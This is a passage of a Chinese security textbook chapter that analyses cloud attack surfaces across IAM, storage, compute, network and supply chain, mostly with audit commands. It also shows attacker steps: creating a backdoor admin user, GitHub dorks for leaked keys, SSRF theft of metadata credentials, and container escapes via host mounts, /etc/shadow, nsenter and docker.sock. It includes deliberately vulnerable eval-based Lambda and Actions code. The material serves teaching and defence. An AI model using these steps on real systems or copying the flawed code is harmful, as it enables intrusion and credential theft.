


## 19.2 云环境攻击面分析

攻击面（Attack Surface）是指系统中所有可能被攻击者利用的入口点、路径和弱点的总和。在云环境中，攻击面的范围远超传统数据中心——除了操作系统、网络和应用程序层面的漏洞，还叠加了身份与访问管理、云API、元数据服务、共享技术架构、供应链等全新的攻击维度。

理解云环境攻击面是制定有效防御策略的前提。本节将从五个核心层面——身份与访问管理、数据存储、计算资源、网络架构、供应链——系统性地拆解云环境中的攻击面，为后续章节的元数据服务安全（19.3）、安全威胁模型（19.4）和云原生安全架构（19.5）奠定分析基础。

### 19.2.0 云安全威胁模型总览

在深入各攻击面之前，先建立全局视野。云安全威胁模型可以分为五个层次，每个层次包含若干攻击向量，攻击者通常会跨层组合利用以达成最终目标。



上图展示了云安全威胁的全景视图。值得注意的是，实际攻击中攻击者很少只利用单一层面的漏洞——典型的云入侵链往往是"身份泄露 → 元数据获取 → 横向移动 → 数据窃取"的多阶段攻击。

**三大云平台攻击面对比**：

| 攻击面类型 | AWS | Azure | GCP |
|---|---|---|---|
| 身份管理 | IAM用户/角色/策略 | Azure AD/Entra ID + RBAC | IAM用户/服务账号 |
| 元数据服务 | IMDS (169.254.169.254) | IMDS (169.254.169.254) | Metadata (metadata.google.internal) |
| 对象存储 | S3 | Blob Storage | Cloud Storage |
| 临时凭据 | STS AssumeRole | OAuth 2.0 Token | 服务账号密钥/临时令牌 |
| 容器服务 | ECS/EKS/Fargate | AKS/ACI | GKE/Cloud Run |
| Serverless | Lambda | Azure Functions | Cloud Functions/Cloud Run |
| 默认IMDS版本 | IMDSv2 (推荐) | IMDSv1/v2 | 默认可访问 |

### 19.2.1 身份与访问管理（IAM）攻击面

IAM是云安全的基石，也是最常见的攻击入口。根据Verizon《2024年数据泄露调查报告》，超过80%的云安全事件涉及凭证相关的攻击向量。云环境中的IAM与传统AD/LDAP有本质区别——云IAM不仅控制人对资源的访问，还控制服务对服务的调用、API的执行权限、跨账户的信任关系，攻击面因此呈指数级增长。

#### 19.2.1.1 过度授权的IAM策略

过度授权（Over-privileged）是云环境中最普遍的IAM问题。当IAM策略中的Action和Resource都设为通配符`*`时，主体获得了对所有资源执行所有操作的权限——这就是所谓的"God Mode"策略：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```

这种策略在实际环境中非常常见，通常源于以下场景：

- 管理员在调试阶段创建的"临时"策略，但因流程缺失而长期保留
- 开发人员要求"给我最高权限"，运维团队为了快速响应而满足
- Terraform/CloudFormation模板中复制粘贴的过度宽泛策略
- IAM策略的"权限蠕变"——随着时间推移，策略被不断添加规则但从不清理

**攻击者视角**：一旦获取到绑定了God Mode策略的凭据，攻击者可以立即执行以下操作：

```bash
# 使用过度授权的凭据，攻击者可以：
# 1. 列出所有S3桶
aws s3api list-buckets

# 2. 读取所有数据库
aws rds describe-db-instances

# 3. 创建新的管理员用户（持久化）
aws iam create-user --user-name backdoor-admin
aws iam attach-user-policy --user-name backdoor-admin \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# 4. 窃取所有EC2中的数据
aws ec2 describe-instances
```

**最小权限原则的实操方法**：不要试图一步到位设计完美策略，而是采用"从拒绝开始，逐步放行"的方法：

```bash
# 第一步：使用AWS Access Analyzer生成基于实际使用情况的策略
aws accessanalyzer start-policy-generation \
  --policy-generation-details '{
    "principalArn": "arn:aws:iam::123456789012:role/AppRole"
  }'

# 第二步：对比当前策略与实际使用的权限差距
# 第三步：用生成的最小策略替换原有过度宽泛策略
```

对于Azure环境，Azure AD（现已更名为Microsoft Entra ID）中的过度授权问题同样严重。Azure提供了`PIM`（Privileged Identity Management）功能来实施即时权限（Just-In-Time access），避免永久性的高权限角色分配。

#### 19.2.1.2 弱密码与缺乏MFA

云控制台账户的弱密码和缺乏多因素认证是直接暴露在互联网上的大门。与传统内部系统不同，云控制台（如AWS Console、Azure Portal、GCP Console）的登录入口对全球开放，攻击者无需进入内网即可发起攻击。

**常见弱密码场景**：

- 使用公司名、产品名、`password123`等弱密码
- 多个管理员共享同一账户和密码
- 密码策略未要求最小长度、复杂度和定期轮换
- Root/主账户未强制启用MFA

**缺乏MFA的实际危害**：当攻击者通过撞库或钓鱼获取到密码后，如果没有MFA保护，可以立即登录控制台。根据Microsoft的统计，启用MFA可以阻止99.9%以上的账户入侵攻击。

```bash
# AWS: 检查哪些IAM用户未启用MFA
aws iam list-users --query 'Users[*].UserName' --output text | while read user; do
    mfa=$(aws iam list-mfa-devices --user-name "$user" \
        --query 'MFADevices[0].SerialNumber' --output text 2>/dev/null)
    if [ "$mfa" = "None" ] || [ -z "$mfa" ]; then
        echo "未启用MFA: $user"
    fi
done

# Azure: 检查未注册MFA的用户
az ad user list --query "[?strongAuthenticationMethods[0]==null].displayName" -o tsv
```

#### 19.2.1.3 访问密钥泄露

云访问密钥（Access Key/Secret Key）的泄露是云安全事件中最常见的初始入侵向量之一。GitGuardian的报告显示，2023年在公开GitHub仓库中检测到超过1200万个硬编码的密钥和凭据。

**泄露渠道**：

| 泄露渠道 | 风险等级 | 说明 |
|---|---|---|
| GitHub公开仓库 | 极高 | 代码推送时未做密钥扫描，`.env`文件被提交 |
| CI/CD日志 | 高 | 构建日志中打印了环境变量或配置文件内容 |
| 容器镜像 | 高 | Dockerfile中COPY了含密钥的配置文件 |
| 错误配置的S3桶 | 高 | 存储了含密钥的配置备份、日志文件 |
| 代码片段分享 | 中 | Stack Overflow、Pastebin、Gist中粘贴的调试代码 |
| npm/PyPI包 | 中 | 发布的包中包含`.env`文件或硬编码密钥 |
| 内部Wiki/文档 | 中 | Confluence、Notion中的配置文档包含密钥 |
| 员工离职 | 中 | 离职员工保留了包含密钥的开发环境 |

```python
# 攻击者常用的GitHub搜索语法（dorks）来寻找泄露的密钥
# 注意：这些是用于安全审计的检测方法，不应被用于未授权的访问
search_queries = [
    # AWS密钥
    '"AKIA" filename:.env',
    '"aws_secret_access_key" filename:*.py',
    '"aws_access_key_id" filename:*.json',
    # Azure密钥
    '"AccountKey" filename:*.config',
    '"connectionstring" filename:*.json',
    # GCP密钥
    '"private_key_id" filename:*.json',
    'filename:service-account.json',
    # 通用
    '"API_KEY" filename:.env',
    '"SECRET_KEY" filename:*.yaml',
]
```

**密钥泄露后的响应流程**：

```bash
# 1. 立即禁用泄露的密钥（AWS示例）
aws iam update-access-key \
  --access-key-id YOUR_AWS_KEY_ID \
  --status Inactive \
  --user-name compromised-user

# 2. 检查CloudTrail中该密钥的所有使用记录
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=AccessKeyId,AttributeValue=YOUR_AWS_KEY_ID \
  --max-results 50

# 3. 生成新的密钥对替换
aws iam create-access-key --user-name compromised-user

# 4. 扫描代码仓库中是否还有其他泄露
# 使用trufflehog或gitleaks等工具
trufflehog git https://github.com/your-org/your-repo.git
```

#### 19.2.1.4 服务账户与角色滥用

服务账户（Service Account）在云环境中承担着服务间通信的关键角色，但其安全问题往往被忽视。与人类用户不同，服务账户的凭据通常以文件或环境变量的形式长期存在，且很少有人关注其使用情况。

**服务账户的典型安全问题**：

- **权限过大**：为了方便，服务账户经常被赋予远超实际需求的权限。例如，一个只需要读取特定S3桶的服务账户被赋予了`S3FullAccess`。
- **密钥长期不轮换**：AWS的IAM访问密钥、GCP的服务账号密钥文件、Azure的服务主体密码，一旦创建就可能数年不更换。
- **跨服务共享**：多个应用或微服务共用同一个服务账户，一旦其中一个应用被攻破，所有共享该账户的服务都面临风险。
- **密钥文件散布**：GCP的服务账号JSON密钥文件被复制到多台开发机、CI/CD环境、甚至个人电脑。

**AWS IAM角色扮演（AssumeRole）的安全隐患**：

AWS的`sts:AssumeRole`机制允许一个身份临时获取另一个角色的权限。如果信任策略（Trust Policy）配置过于宽泛，攻击者可以跨账户或跨角色获取更高权限：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

上面的信任策略允许任何AWS账户的角色扮演该角色——这意味着攻击者只需知道角色ARN就可以获取其权限。正确的做法是在Principal中明确指定允许的账户或角色。

#### 19.2.1.5 联合身份认证与SSO的风险

现代云环境广泛使用身份联邦（Identity Federation），将企业内部的身份提供商（IdP）如Active Directory、Okta、OneLogin与云平台集成。这种架构虽然简化了用户管理，但也引入了新的攻击面：

- **IdP被攻破**：如果攻击者控制了Okta或Azure AD等IdP，就可以为任何用户生成云平台的访问令牌
- **SAML断言伪造**：利用SAML协议的XML签名绕过漏洞，攻击者可以伪造身份令牌
- **OAuth令牌劫持**：通过XSS或开放重定向漏洞窃取OAuth访问令牌
- **过度宽泛的SCIM同步**：自动同步的用户可能继承了不恰当的默认权限组

**真实案例**：2022年Uber数据泄露事件中，攻击者通过社工获取了员工的VPN凭据，然后利用MFA疲劳攻击（不断发送MFA推送通知直到用户误点"批准"）进入内部网络，最终获取了Uber内部的AWS和GCP管理权限。

### 19.2.2 数据存储攻击面

云存储是数据泄露的主要来源。根据IBM《2024年数据泄露成本报告》，云环境中的数据泄露平均成本为480万美元，其中存储配置错误是首要原因。与传统存储不同，云存储服务默认就是网络可达的——这是便利性与安全性的根本矛盾。

#### 19.2.2.1 对象存储公开访问

云对象存储（AWS S3、Azure Blob Storage、GCP Cloud Storage、阿里云OSS）是数据泄露的重灾区。这些服务的设计初衷是提供高可用、可公开访问的静态资源托管，因此"公开"并非异常状态，而是内置特性——安全责任在于使用者配置正确的访问控制。

**S3桶公开访问的常见配置错误**：

```bash
# 错误1：桶策略允许所有人读取
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicRead",
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::my-sensitive-bucket/*"
        }
    ]
}

# 错误2：ACL设置为public-read
aws s3api put-bucket-acl --bucket my-bucket --acl public-read

# 错误3：未启用"阻止公共访问"设置
aws s3api put-public-access-block --bucket my-bucket \
  --public-access-block-configuration \
  BlockPublicAcls=false,IgnorePublicAcls=false,BlockPublicPolicy=false,RestrictPublicBuckets=false
```

**攻击者如何发现公开存储桶**：

```bash
# 工具1：使用CloudBrute枚举公开的存储桶
./cloudbrute -d target.com -m storage -k "target"

# 工具2：使用S3Scanner扫描S3桶
python3 s3scanner.py --list buckets.txt

# 工具3：手动检查（AWS CLI）
aws s3 ls s3://target-bucket --no-sign-request

# 工具4：Google Dork搜索公开的S3桶
# site:s3.amazonaws.com "target"
# inurl:s3.amazonaws.com filetype:csv "target"

# 工具5：Azure Blob枚举
# 通过猜测容器名 + .blob.core.windows.net 访问
curl https://target.blob.core.windows.net/?comp=list
```

**真实案例**：2023年，某大型电信公司的S3桶因ACL配置错误导致3700万用户记录泄露，包括姓名、地址、电话号码和SSN。调查发现该桶的ACL被设为`public-read`，且未启用S3服务器端加密。

#### 19.2.2.2 数据库公网暴露

云数据库服务（RDS、Cloud SQL、Cosmos DB、MongoDB Atlas）如果配置了公网访问端点且安全组/防火墙规则过于宽泛，会直接暴露在互联网上。

```bash
# AWS RDS公网暴露检查
aws rds describe-db-instances \
  --query 'DBInstances[?PubliclyAccessible==`true`].[DBInstanceIdentifier,Endpoint.Address,Endpoint.Port]' \
  --output table

# 检查关联的安全组是否允许0.0.0.0/0访问数据库端口
aws ec2 describe-security-groups \
  --filters "Name=ip-permission.from-port,Values=3306" \
  --query 'SecurityGroups[?IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0`]]]'
```

**被暴露在公网上的数据库类型及默认端口**：

| 数据库类型 | 默认端口 | 常见风险 |
|---|---|---|
| MySQL/Aurora | 3306 | 弱密码、无加密连接 |
| PostgreSQL | 5432 | `pg_hba.conf`配置宽松 |
| MongoDB | 27017 | 默认无认证、无TLS |
| Redis | 6379 | 默认无密码、可执行命令 |
| Elasticsearch | 9200 | 无认证时可直接查询全部数据 |
| SQL Server | 1433 | SA弱密码 |
| Cassandra | 9042 | 默认无认证 |

#### 19.2.2.3 备份与快照泄露

云平台的快照（Snapshot）和备份（Backup）功能是经常被忽略的攻击面。EC2快照、RDS快照、磁盘备份中往往包含大量敏感数据，而这些快照的共享权限配置错误会导致数据泄露。

```bash
# AWS: 检查公开共享的EBS快照
aws ec2 describe-snapshots --owner-ids self \
  --query 'Snapshots[?RestorableByUserIds[0]==`all`].[SnapshotId,Description,VolumeSize]' \
  --output table

# AWS: 检查公开共享的RDS快照
aws rds describe-db-cluster-snapshots \
  --query 'DBClusterSnapshots[?SnapshotType==`manual`].[DBClusterSnapshotIdentifier,DBClusterIdentifier]' \
  --output table

# Azure: 检查托管磁盘快照的访问策略
az snapshot list --query "[?diskAccessId==null].[name,publicNetworkAccess]" -o table
```

攻击者可以通过公开的快照创建新的磁盘挂载到自己的实例上，直接读取其中的数据。即使快照中的数据是加密的，如果加密密钥使用了客户管理的密钥（CMK）且密钥策略配置不当，攻击者也可能解密数据。

#### 19.2.2.4 数据加密与密钥管理

云环境中的数据加密包括静态加密（at rest）和传输加密（in transit）。加密缺失或密钥管理不当是严重的攻击面：

- **静态加密未启用**：部分云存储服务默认不启用加密（如某些数据库引擎），需要用户手动配置
- **使用AWS托管密钥而非客户管理密钥**：AWS管理的加密密钥由AWS控制轮换策略，客户无法审计其使用情况
- **传输中数据未加密**：数据库连接未使用TLS/SSL，S3访问未强制HTTPS
- **密钥策略过于宽泛**：KMS密钥策略允许过多主体使用或管理密钥

```bash
# 检查S3桶是否强制HTTPS访问
aws s3api get-bucket-policy --bucket my-bucket | \
  python3 -c "
import json, sys
policy = json.load(sys.stdin)
for stmt in policy['Statement']:
    if 'Condition' in stmt and 'Bool' in stmt['Condition']:
        if stmt['Condition']['Bool'].get('aws:SecureTransport') == 'false':
            print('发现允许HTTP访问的策略:', stmt['Sid'])
"

# 检查RDS实例是否强制SSL
aws rds describe-db-instances \
  --query 'DBInstances[?PendingModifiedValues==null].[DBInstanceIdentifier,StorageEncrypted]' \
  --output table
```

### 19.2.3 计算资源攻击面

云计算资源——虚拟机、容器、Serverless函数——是运行应用程序的载体，也是攻击者在获取初始访问后进行横向移动和权限提升的关键目标。

#### 19.2.3.1 元数据服务利用

云实例的元数据服务（Instance Metadata Service, IMDS）是云环境中最独特也最危险的攻击面之一。通过访问`169.254.169.254`（或`metadata.google.internal`），实例上的任何进程都可以获取实例的元数据，包括IAM角色的临时安全凭据。

攻击者通过SSRF（服务器端请求伪造）漏洞访问元数据服务，获取临时凭据后可以：

```bash
# 攻击链示例（AWS）：
# 第一步：通过SSRF获取IAM角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 第二步：获取该角色的临时凭据
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/app-role

# 返回结果包含AccessKeyId、SecretAccessKey、Token
# 第三步：使用临时凭据访问AWS资源
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws s3 ls
```

元数据服务的安全将在19.3节中详细展开。这里需要强调的是：IMDSv1（不需要特殊Header即可访问）仍然是许多遗留实例的默认配置，而IMDSv2要求先通过PUT请求获取Token，能有效防御大部分SSRF攻击。

```bash
# 检查EC2实例是否仍在使用IMDSv1
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[?MetadataOptions.HttpTokens==`optional`].[InstanceId,MetadataOptions.HttpTokens]' \
  --output table

# 强制使用IMDSv2
aws ec2 modify-instance-metadata-options \
  --instance-id i-1234567890abcdef0 \
  --http-tokens required \
  --http-endpoint enabled
```

#### 19.2.3.2 容器逃逸

容器逃逸是云原生环境中最严重的安全威胁之一。容器虽然提供了进程隔离，但并非虚拟机级别的隔离——容器与宿主机共享内核，一旦隔离机制被突破，攻击者可以直接访问宿主机系统。

**主要的容器逃逸攻击向量**：

| 攻击向量 | 原理 | 影响范围 | 防御难度 |
|---|---|---|---|
| 特权容器 | `--privileged`标志移除了所有安全限制 | 完全控制宿主机 | 低（避免使用） |
| 挂载点滥用 | 宿主机的敏感目录（如`/var/run/docker.sock`、`/`）被挂载到容器中 | 读写宿主机文件系统 | 中 |
| 内核漏洞利用 | 利用内核漏洞突破namespace/cgroup隔离 | 取决于内核版本 | 高 |
| 容器运行时漏洞 | Docker/containerd/CRI-O的已知漏洞（如CVE-2024-21626） | 取决于运行时版本 | 中 |
| capability滥用 | 容器被赋予了`SYS_ADMIN`、`SYS_PTRACE`等危险capability | 特权操作 | 中 |
| cgroup逃逸 | 利用cgroup v1的release_agent机制执行宿主机命令 | 宿主机命令执行 | 高 |

**特权容器逃逸实操演示**：

```bash
# 检测当前容器是否为特权容器
cat /proc/1/status | grep -i cap
# 如果CapEff为0000003fffffffff，说明是特权容器

# 特权容器逃逸方法1：挂载宿主机文件系统
mkdir /tmp/host
mount /dev/sda1 /tmp/host
cat /tmp/host/etc/shadow  # 读取宿主机密码文件

# 特权容器逃逸方法2：通过nsenter进入宿主机命名空间
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
```

```bash
# 检测Docker Socket挂载
ls -la /var/run/docker.sock 2>/dev/null
# 如果存在，可以通过Docker API控制宿主机上的所有容器

# 通过挂载的Docker Socket创建新的特权容器
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/create" \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd": ["/bin/sh"],
    "Binds": ["/:/host"],
    "Privileged": true
  }'
```

#### 19.2.3.3 Serverless函数安全

Serverless函数（AWS Lambda、Azure Functions、GCP Cloud Functions）虽然减少了基础设施管理的攻击面，但引入了新的安全挑战：

- **环境变量泄露**：函数的环境变量中经常存储数据库连接字符串、API密钥等敏感信息
- **函数执行角色过度授权**：为了方便，Lambda函数经常被赋予`AdministratorAccess`策略
- **事件注入**：通过构造恶意的触发事件（如S3事件、API Gateway请求）来利用函数中的代码漏洞
- **临时凭据窃取**：Lambda函数的临时凭据可以通过`AWS_SESSION_TOKEN`环境变量获取
- **冷启动中的密钥缓存**：一些开发者在函数初始化阶段将密钥加载到全局变量中，这些变量在函数复用期间持续存在

```python
# 危险示例：Lambda函数中的环境变量泄露
import os
import boto3

# 这些敏感信息存储在环境变量中
DB_PASSWORD = os.environ['DB_PASSWORD']
API_KEY = os.environ['API_KEY']

def lambda_handler(event, context):
    # 如果函数有代码注入漏洞，攻击者可以读取环境变量
    # 例如通过eval()或SQL注入
    result = eval(event.get('expression', ''))  # 危险！
    return {'statusCode': 200, 'body': result}
```

```bash
# 安全审计：检查Lambda函数的环境变量是否加密
aws lambda list-functions \
  --query 'Functions[?KMSKeyArn==null].[FunctionName,Role]' \
  --output table

# 检查Lambda函数的IAM角色权限
aws iam list-attached-role-policies --role-name lambda-role-name
aws iam get-policy-version --policy-arn arn:aws:iam::123456789012:policy/xxx --version-id v1
```

### 19.2.4 网络攻击面

云网络与传统网络有根本性差异：云网络是软件定义的（SDN），所有网络配置通过API管理，攻击者可以利用API漏洞或配置错误来绕过网络安全控制。

#### 19.2.4.1 安全组与网络ACL配置错误

安全组（Security Group）是云中最基本的网络访问控制机制，但配置错误极为常见：

```bash
# 严重的安全组配置错误示例
# 允许所有IP访问所有端口（包括SSH、RDP、数据库端口）
aws ec2 authorize-security-group-ingress \
  --group-id sg-12345678 \
  --protocol -1 \
  --cidr 0.0.0.0/0

# 允许所有IP访问SSH
aws ec2 authorize-security-group-ingress \
  --group-id sg-12345678 \
  --protocol tcp \
  --port 22 \
  --cidr 0.0.0.0/0

# 允许所有IP访问RDP
aws ec2 authorize-security-group-ingress \
  --group-id sg-12345678 \
  --protocol tcp \
  --port 3389 \
  --cidr 0.0.0.0/0
```

**审计安全组的系统方法**：

```bash
# 找出所有允许0.0.0.0/0访问的安全组规则
aws ec2 describe-security-groups \
  --query 'SecurityGroups[].{
    GroupId: GroupId,
    GroupName: GroupName,
    OpenPorts: IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0`]].{
      Protocol: IpProtocol,
      FromPort: FromPort,
      ToPort: ToPort
    }
  }' --output json

# Azure等效检查
az network nsg list --query "[].{
  Name: name,
  Rules: securityRules[?direction=='Inbound' && access=='Allow' && sourceAddressPrefix=='*'].[name,destinationPortRange]
}" -o table
```

**安全组 vs 网络ACL的区别**：

| 特性 | 安全组（SG） | 网络ACL（NACL） |
|---|---|---|
| 层级 | 实例级别 | 子网级别 |
| 状态 | 有状态（自动允许响应流量） | 无状态（需要显式配置入站和出站） |
| 规则评估 | 所有规则一起评估，只要有一条Allow即允许 | 按规则序号依次评估，遇到匹配规则即停止 |
| 默认行为 | 拒绝所有入站，允许所有出站 | 允许所有入站和出站 |
| 常见错误 | 入站规则过于宽泛 | 出站规则未限制，数据可外泄 |

#### 19.2.4.2 VPC网络架构缺陷

VPC（Virtual Private Cloud）是云网络隔离的基础。常见的架构缺陷包括：

- **缺少网络分段**：所有资源放在同一个子网中，一旦一台主机被攻破，攻击者可以直接访问所有资源
- **公有子网放置敏感资源**：数据库、内部API等后端服务被放置在有互联网网关路由的公有子网中
- **VPC对等连接配置不当**：跨VPC的对等连接未做精细的路由和安全组限制
- **NAT网关缺失**：私有子网中的实例没有出站互联网访问的正确路径

```bash
# 检查VPC中是否有私有子网
aws ec2 describe-subnets --filters "Name=vpc-id,Values=vpc-xxxx" \
  --query 'Subnets[?MapPublicIpOnLaunch==`true`].[SubnetId,CidrBlock,AvailabilityZone]' \
  --output table

# 检查VPC对等连接的路由表
aws ec2 describe-route-tables \
  --filters "Name=route.gateway-id,Values=igw-*" \
  --query 'RouteTables[].{
    RouteTableId: RouteTableId,
    Routes: Routes[?DestinationCidrBlock!=null].[DestinationCidrBlock,GatewayId]
  }'
```

#### 19.2.4.3 公开暴露的管理接口

云环境中被误暴露到公网的管理接口是最直接的攻击入口：

```bash
# K8s API Server暴露检查
# 默认端口6443，如果安全组允许0.0.0.0/0访问该端口则为高危
aws ec2 describe-security-groups \
  --filters "Name=ip-permission.from-port,Values=6443" \
  --query 'SecurityGroups[?IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0`]]].[GroupId,GroupName]'

# 数据库管理界面暴露检查（常见端口）
# phpMyAdmin (80/443), pgAdmin (5050), MongoDB Compass/API (27017)
# Elasticsearch (9200), Kibana (5601), Redis Commander (8081)

# 检查是否有RDS实例的端点直接暴露在公网
aws rds describe-db-instances \
  --query 'DBInstances[?PubliclyAccessible==`true`].{
    ID: DBInstanceIdentifier,
    Endpoint: Endpoint.Address,
    Port: Endpoint.Port,
    Engine: Engine
  }' --output table
```

#### 19.2.4.4 DNS劫持与域名接管

DNS相关的攻击面在云环境中同样重要：

- **Route53/Cloud DNS区域接管**：如果DNS区域被删除但域名仍指向其NS记录，攻击者可以创建同名区域接管域名
- **S3子域名接管**：如果网站引用了`assets.example.com`的S3桶但该桶已被删除，攻击者可以创建同名桶托管恶意内容
- **CNAME指向已释放的资源**：CNAME记录指向已释放的Elastic IP或已删除的云服务

```bash
# 检测子域名接管风险
# 工具：subjack, subzy, can-i-take-over-xyz
subjack -w subdomains.txt -t 100 -timeout 30 -o results.txt -ssl

# AWS Route53检查：是否有托管区域指向不存在的资源
aws route53 list-hosted-zones \
  --query 'HostedZones[].[Id,Name]' --output table
```

### 19.2.5 供应链攻击面

云环境的供应链攻击面正在快速增长。Gartner预测到2025年，45%的组织将经历软件供应链攻击。云环境中的供应链不仅包括传统的软件依赖，还包括IaC模块、容器镜像、CI/CD管道等云特有的组件。

#### 19.2.5.1 CI/CD管道安全

CI/CD管道是连接代码提交与生产部署的桥梁，一旦被攻破，攻击者可以向生产环境注入任意代码。

**CI/CD管道的主要攻击向量**：

| 攻击向量 | 风险描述 | 影响 |
|---|---|---|
| Secrets硬编码 | 构建脚本中直接写入凭据 | 凭据泄露 |
| 过宽的CI权限 | CI runner拥有生产环境完全访问权限 | 生产环境被控制 |
| 依赖混淆 | 私有包名被公开注册，攻击者发布恶意版本 | 代码注入 |
| 构建缓存投毒 | 攻击者篡改构建缓存中的中间产物 | 供应链后门 |
| 自托管Runner劫持 | 自托管的CI runner未做隔离，可被恶意PR触发 | 代码执行 |
| 未签名的制品 | 构建产物未做签名验证，可被替换 | 恶意部署 |

```yaml
# GitHub Actions 安全审计示例
# 危险：在workflow中使用不可信的PR标题/提交信息
name: Dangerous Workflow
on: pull_request
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      # 危险：PR标题中的注入攻击
      - run: echo "${{ github.event.pull_request.title }}"
      # 危险：使用tag引用而非SHA固定版本
      - uses: actions/checkout@v3  # 应该用 @commit-sha
      # 危险：从PR上下文获取代码并执行
      - run: |
          eval "$(echo ${{ github.event.pull_request.body }} | head -1)"
```

```bash
# 安全的GitHub Actions实践
# 1. 使用SHA固定第三方Action版本
# - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

# 2. 限制GITHUB_TOKEN权限
# permissions:
#   contents: read
#   pull-requests: write

# 3. 使用OIDC代替长期密钥访问云资源
# aws-actions/configure-aws-credentials@v4
#   with:
#     role-to-assume: arn:aws:iam::123456789012:role/github-actions
#     aws-region: us-east-1

# 审计现有workflow中的安全问题
# 使用actionlint工具
actionlint .github/workflows/*.yml
```

#### 19.2.5.2 容器镜像安全

容器镜像是云原生应用的基础构建块，镜像安全问题直接影响整个运行环境的安全性。

**容器镜像的攻击面**：

```bash
# 镜像安全扫描
# 使用Trivy扫描镜像漏洞
trivy image --severity HIGH,CRITICAL my-app:latest

